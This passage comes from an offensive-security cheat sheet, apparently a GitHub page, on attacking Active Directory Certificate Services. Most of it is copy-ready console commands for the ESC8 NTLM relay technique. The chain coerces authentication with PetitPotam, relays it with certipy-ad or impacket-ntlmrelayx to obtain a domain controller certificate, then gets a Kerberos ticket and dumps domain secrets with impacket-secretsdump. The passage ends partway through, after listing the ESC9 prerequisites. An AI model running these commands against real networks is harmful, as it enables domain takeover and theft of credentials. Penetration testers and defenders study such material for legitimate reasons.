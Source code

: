 ```console
$ certipy-ad auth -pfx Administrator.pfx -dc-ip <RHOST>
```

### ESC8: NTLM Relay to AD CS HTTP Endpoints

#### Prerequisistes

- Enrollment Service has installed and enabled Web Enrollment via HTTP

#### Usage

```console
$ certipy-ad relay -target 'http://<CA>'
$ certipy-ad relay -ca '<CA>' -template '<TEMPLATE>'
```

```console
$ python3 PetitPotam.py <RHOST> <DOMAIN>
```

```console
$ certipy-ad auth -pfx dc.pfx -dc-ip <RHOST>
```

```console
$ export KRB5CCNAME=dc.ccache
```

```console
$ impacket-secretsdump -k -no-pass <DOMAIN>/<RHOST>@<DOMAIN>
```

##### Coercing

```console
$ impacket-ntlmrelayx -t http://<RHOST>/certsrv/certfnsh.asp -smb2support --adcs --template <TEMPLATE>
```

```console
$ python3 PetitPotam.py <RHOST> <DOMAIN>
```

```console
$ python3 gettgtpkinit.py -pfx-base64 $(cat base64.b64) '<DOMAIN>'/'<RHOST>' 'dc.ccache'
```

```console
$ export KRB5CCNAME=dc.ccache
```

```console
$ impacket-secretsdump -k -no-pass <DOMAIN>/<RHOST>@<DOMAIN>
```

### ESC9: No Security Extensions

#### Prerequisites

- `StrongCertificateBindingEnforcement` set to `1` (default) or `0`
	- `StrongCertificateBindingEnforcement` not set to `2` (default: `1`) or `CertificateMappingMethods` contains `UPN` flag
- Certificate contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
- Certificate specifies any client authentication EKU
- `GenericWrite` over any account A to compromise any account B

